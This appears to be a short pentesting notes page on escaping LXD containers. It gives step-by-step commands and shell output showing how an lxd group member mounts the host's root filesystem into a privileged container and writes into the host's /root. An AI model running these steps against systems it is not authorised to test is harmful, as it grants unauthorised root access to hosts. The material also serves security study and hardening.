 # Escaping and Enumerating Containers

Enumerating containers

## LXD Specific

### Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```bash
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```bash
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit
```

And so we see that the file has been created within our root directory.

```bash
ubuntu@ubuntu:~$ sudo su
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.

## References

[https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful](https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful)  
[https://fosterelli.co/privilege-escalation-via-docker.html](https://fosterelli.co/privilege-escalation-via-docker.html)  
[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)  
[https://github.com/lxc/lxd/issues/2003](https://github.com/lxc/lxd/issues/2003)  
[https://reboare.github.io/lxd/lxd-escape.html](https://reboare.github.io/lxd/lxd-escape.html)  
[https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/](https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/)

